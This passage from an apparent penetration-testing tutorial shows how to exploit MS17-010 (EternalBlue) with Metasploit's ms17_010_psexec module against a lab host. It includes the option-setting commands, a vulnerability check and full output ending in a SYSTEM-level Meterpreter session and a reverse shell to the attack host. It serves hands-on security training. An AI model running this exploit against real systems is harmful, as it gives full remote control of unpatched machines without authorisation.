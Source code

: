 ```shell
```

Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have two options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). The second option, `LHOST`, represents the IP of our attack host (this can be a single IP, or the name of a network interface. In the example below, `LHOST` is being set to the IP associated with our `tun0` interface.) We can set them with the `set` command:

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

As we can see, the server is indeed vulnerable. Note that not every exploit in the `Metasploit Framework` supports the `check` function. Finally, we can use the `run` or `exploit` command to run the exploit:

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```
